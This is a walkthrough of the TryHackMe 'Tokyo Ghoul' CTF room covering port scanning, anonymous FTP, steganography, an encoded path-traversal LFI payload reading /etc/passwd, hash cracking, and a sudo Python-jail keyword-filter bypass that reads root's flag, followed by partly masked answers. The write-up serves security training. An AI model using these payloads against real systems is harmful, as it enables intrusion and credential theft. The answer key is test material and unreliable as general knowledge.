









## TryHackMe Room - [Tokyo Ghoul](https://tryhackme.com/room/tokyoghoul666)

## Enumeration

### Nmap Scan

Starting with a comprehensive nmap scan to identify open ports and services:

```bash
nmap -p- -sV <TARGET_IP>
```

**Results:**
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We have FTP, SSH, and HTTP services running. The OS is Ubuntu Linux. Let's explore the web application on port 80.



### Web Application Discovery

Upon examining the web application, we find an interesting comment in the source code:

```html
<!-- look don't tell jason but we will help you escape , here is some clothes to look like us and a mask to look anonymous and go to the ftp room right there you will find a freind who will help you -->
```

This suggests we should check the FTP service. We also find a hyperlink to `jasonroom.html` which contains the same message.

## Initial Access

### FTP Anonymous Login

Based on the hint from the web application, let's try accessing the FTP service with anonymous credentials:

```bash
ftp <TARGET_IP>
```

**FTP Connection:**
```
Connected to <TARGET_IP>.
220 (vsFTPd 3.0.3)
Name (<TARGET_IP>:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jan 23  2021 need_Help?
226 Directory send OK.
```

We successfully logged in and found a directory called `need_Help?`. Let's explore it using `lftp` for easier file transfers:

```bash
lftp anonymous@<TARGET_IP>:/> ls
drwxr-xr-x    3 ftp      ftp          4096 Jan 23  2021 need_Help?
lftp anonymous@<TARGET_IP>:/> cd need_Help?
lftp anonymous@<TARGET_IP>:/need_Help?> ls
-rw-r--r--    1 ftp      ftp           480 Jan 23  2021 Aogiri_tree.txt
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2021 Talk_with_me
lftp anonymous@<TARGET_IP>:/need_Help?> mget *
480 bytes transferred
lftp anonymous@<TARGET_IP>:/need_Help?> cd Talk_with_me
lftp anonymous@<TARGET_IP>:/need_Help?/Talk_with_me> ls
-rwxr-xr-x    1 ftp      ftp         17488 Jan 23  2021 need_to_talk
-rw-r--r--    1 ftp      ftp         46674 Jan 23  2021 rize_and_kaneki.jpg
lftp anonymous@<TARGET_IP>:/need_Help?/Talk_with_me> mget *
64162 bytes transferred
Total 2 files transferred
```

We've downloaded several files:
- `Aogiri_tree.txt` - A text file
- `need_to_talk` - An executable file
- `rize_and_kaneki.jpg` - An image file

### File Analysis

Let's examine the files we downloaded:

**Reading Aogiri_tree.txt:**
```
Why are you so late?? i've been waiting for too long .
So i heard you need help to defeat Jason , so i'll help you to do it and i know you are wondering how i will. 
I knew Rize San more than anyone and she is a part of you, right?
That mean you got her kagune , so you should activate her Kagune and to do that you should get all control to your body , i'll help you to know Rise san more and get her kagune , and don't forget you are now a part of the Aogiri tree .
Bye Kaneki.
```

**Checking file types:**
```bash
file need_to_talk
file rize_and_kaneki.jpg
```

**Results:**
```
need_to_talk: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=adba55165982c79dd348a1b03c32d55e15e95cf6, for GNU/Linux 3.2.0, not stripped

rize_and_kaneki.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 1024x576, components 3
```

We have an ELF executable and a JPEG image. Let's analyze both.

### Binary Analysis

Let's run the executable to see what it does:

```bash
./need_to_talk
```

**Output:**
```
Hey Kaneki finnaly you want to talk 
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?

> 
```

The program is asking for a passphrase. Let's analyze the binary using reverse engineering tools. After decompiling the binary, we can see in the source code that a password is hardcoded:

```c
char *the_password = "<REDACTED>"; // idb
```

The password is hardcoded in the binary. Let's try running it with this passphrase:

```bash
./need_to_talk
```

**Input:**
```
<REDACTED>
```

**Output:**
```
Good job. I believe this is what you came for:
<REDACTED>
```

Great! We got a message from the binary. This might be useful for the steganography analysis.

### Steganography Analysis

Now let's check the JPEG image for hidden data using `steghide`. We'll try the message we found from the binary:

```bash
steghide extract -sf rize_and_kaneki.jpg
```

**First attempt with the binary passphrase:**
```
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```

**Second attempt with the message from the binary:**
```
Enter passphrase: 
wrote extracted data to "yougotme.txt".
```

Success! Let's read the extracted file:

```bash
cat yougotme.txt
```

**Contents:**
```
haha you are so smart kaneki but can you talk my code 

..... .-
....- ....-
---SNIP---
...-- -..
...-- -..


if you can talk it allright you got my secret directory 
```

This appears to be Morse code! Let's decode it.



After decoding the Morse code, we get a hexadecimal string. Let's decode it using CyberChef:



The decoded string reveals a hidden directory path. Let's visit it in the web application.



## Web Directory Enumeration

### Directory Fuzzing

Let's use `ffuf` to enumerate files and directories in the discovered path:

```bash
ffuf -u http://<TARGET_IP>/<REDACTED_DIRECTORY>/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 400 -fs 0 -fc 403 -e .js,.html,.bak,.php,.txt,.bak
```

**Results:**
```
                        [Status: 200, Size: 312, Words: 21, Lines: 15, Duration: 63ms]
claim                   [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 77ms]
index.html              [Status: 200, Size: 312, Words: 21, Lines: 15, Duration: 61ms]
```

The `claim` directory looks interesting. Let's visit it:



**Page Source:**
```html
<html>
    <head>
	<link href="https://fonts.googleapis.com/css?family=IBM+Plex+Sans" rel="stylesheet"> 
	<link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
	<div class="menu">
	    <a href="index.php">Main Page</a>
	    <a href="index.php?view=flower.gif">NO</a>
	    <a href="index.php?view=flower.gif">YES</a>
	</div>
 <p><b>Welcome Kankei-Ken</b><br><br>So you are here , you make the desision , you really want the power ? 
 Will you accept me? 
 Will accept your self as a ghoul?</br></p>
        </body>
</html>
```

The `index.php?view=flower.gif` parameter looks vulnerable to Local File Inclusion (LFI). Let's test it.

### Local File Inclusion (LFI)

Let's try a basic path traversal attempt:

```
GET /<REDACTED_DIRECTORY>/claim/index.php?view=../../../etc/passwd
```

The page responds with: `no no no silly don't do that`

The application has some filtering. Let's use `ffuf` with a comprehensive LFI wordlist to find a working payload:

```bash
ffuf -u http://<TARGET_IP>/<REDACTED_DIRECTORY>/claim/index.php?view=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -t 400 -fs 0,437,377 -fw 42 -fc 403 -e .js,.html,.bak,.php,.txt,.bak
```

**Results:**
```
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 2232, Words: 53, Lines: 48, Duration: 537ms]
```

Perfect! We found a working payload. Let's use it to read `/etc/passwd`:



**Contents (excerpt):**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
kamishiro:<REDACTED_HASH>:1001:1001:,,,:/home/kamishiro:/bin/bash
```

We found a user `kamishiro` with a password hash. Let's crack it using `john`:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Results:**
```
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>      (kamishiro)     
1g 0:00:00:00 DONE (2026-01-14 12:37) 3.125g/s 6400p/s 6400c/s 6400C/s kucing..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```



Great! We have the username and password. Let's SSH into the system.

## User Flag

### SSH Access

Let's connect via SSH using the credentials we found:

```bash
ssh kamishiro@<TARGET_IP>
```

After entering the password, we're in! Let's locate the user flag:

```bash
kamishiro@vagrant:~$ ls
jail.py  user.txt
kamishiro@vagrant:~$ cat user.txt
<REDACTED>
```



Perfect! We also notice a `jail.py` file. Let's examine it for privilege escalation opportunities.

## Privilege Escalation

### Python Jail Analysis

Let's examine the `jail.py` file:

```bash
kamishiro@vagrant:~$ cat jail.py
```

**Contents:**
```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

The script filters out certain keywords: `'eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write'`. However, we can bypass this by using string concatenation.

Let's check if we can run this with sudo:

```bash
kamishiro@vagrant:~$ sudo -l
```

**Results:**
```
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

Perfect! We can run the script as root. Now let's exploit it to read the root flag. We'll use string concatenation to bypass the keyword filter:

```bash
kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
```

**Execution:**
```
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> print(__builtins__.__dict__['o'+'pen']('/root/root.txt').__iter__().__next__())
<REDACTED>

No Kaneki you are so dead
kamishiro@vagrant:~$
```



## Root Flag

We successfully bypassed the Python jail and read the root flag!

## References

1. https://morsecode.world/international/translator.html
2. https://gchq.github.io/CyberChef/

---

## Answers

### Task 1 - About the room

> This room took a lot of inspiration from psychobreak, and it is based on Tokyo Ghoul anime. The machine will take some time to start, just go grab some water or make a coffee.

### Task 2 - Where am I?

1. **How many ports are open?**

   **Ans.** `3`

2. **What is the OS used?**

   **Ans.** `Ubuntu`

### Task 3 - Planning to escape

1. **Did you find the note that the others ghouls gave you? Where did you find it?**

   **Ans.** `jasonroom.html`

2. **What is the key for Rize executable?**

   **Ans.** `REDACTED`

### Task 4 - What Rize is trying to say?

1. **What the message mean did you understand it? What it says?**

   **Ans.** `#########ter`

2. **What is rize username?**

   **Ans.** `kamishiro`

3. **What is rize password?**

   **Ans.** `###########`

### Task 5 - Fight Jason

1. **What is the user flag?**

   **Ans.** `######################4279693d9f073594a`

2. **What is the root flag?**

   **Ans.** `########################724ab05a9e6000b`
